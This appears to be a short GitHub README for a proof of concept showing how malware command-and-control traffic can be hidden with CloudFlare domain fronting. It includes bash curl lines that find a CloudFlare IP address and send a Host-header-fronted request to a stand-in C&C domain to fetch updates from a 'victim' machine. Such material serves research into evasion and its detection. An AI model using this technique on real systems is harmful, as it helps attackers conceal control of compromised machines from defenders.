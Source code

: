 # CloudFlare C&C POC
Before to start, let me say that I'm not a super expert on how to write a C&C client-server. This want to be a POC on how a Malware can hide behind a "fake" CloudFlare domain (see this post for more information: https://medium.com/@themiddleblue/cloudflare-domain-fronting-an-easy-way-to-reach-and-hide-a-malware-c-c-786255f0f437)

![](http://i.imgur.com/ZTsKokU.gif)

### How it work
The client, on the "Victim" PC, is a bash script that uses cURL to connect to CloudFlare and OpenSSL to encrypt all communications from and to CloudFlare/C&C. It simply make 2 HTTP request each *n* seconds: The first one, in order to discover a CloudFlare IP address, try to connect to a "real" CloudFlare website. The second one, make a fake request to CloudFlare to reach our C&C.

```bash
# get any usable CloudFlare IP address
CFIP=$(curl -v -I http://medium.com 2>&1 | egrep -o '\d+\.\d+\.\d+\.\d+' | head -1)

# get updates from my C&C
curl -H "Host: myfakedomain.com" "http://${CFIP}/?nocache=`date +%s`"
```

![hiw](http://i.imgur.com/hYzqMWx.png)


![ws](http://i.imgur.com/ilVKfgV.png)
